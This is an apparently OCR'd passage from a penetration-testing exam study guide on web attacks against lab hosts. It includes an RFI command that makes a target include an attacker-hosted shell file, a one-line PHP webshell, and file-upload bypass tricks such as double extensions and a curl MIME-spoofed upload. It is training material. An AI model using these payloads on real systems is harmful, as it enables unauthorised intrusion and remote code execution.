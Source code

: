 
## 3) File Inclusion (LFI/RFI)

**What it is:**

* **LFI** = Local File Inclusion → you load files already on the server.
* **RFI** = Remote File Inclusion → you load a file from your own machine.

**Why it matters:**

* LFI can reveal configs with passwords (MySQL creds in `config.php`).
* LFI + log poisoning or PHP wrappers can escalate to remote code execution.

**RFI Test (if remote include is allowed):**

```bash
# Host your own file
python3 -m http.server 8000
# Trigger inclusion
curl -s "http://10.10.10.56/index.php?page=http://10.10.14.5:8000/shell.txt"
```

⚠️ **Mistake:** Candidates only check for “visible” pages.
✅ Fix: Playbook emphasizes wrappers (`php://filter`, `php://input`) and log poisoning (ready-to-paste).

---

## 4) File Upload Vulnerabilities

**What it is:**
The app lets you upload files. If validation is weak, you can upload a **PHP/ASPX/JSP webshell** disguised as an image or config file.

**Goal:**

* Get code execution (RCE) by uploading something the server interprets.
* Look for file storage paths (`/uploads`, `/images`, `/files`).

### 4.1 Basic PHP Webshell

```php
<?php system($_GET['c']); ?>
```

Upload as `shell.php`. Then browse to `http://10.10.10.56/uploads/shell.php?c=id`.

### 4.2 Upload Bypass Tricks

* **Double extensions:** `shell.php.jpg`
* **Case trick:** `shell.pHp`
* **MIME spoof:**

  ```bash
  curl -F "file=@shell.php;type=image/png" http://10.10.10.56/upload.php
  ```
* **.htaccess on Apache:**
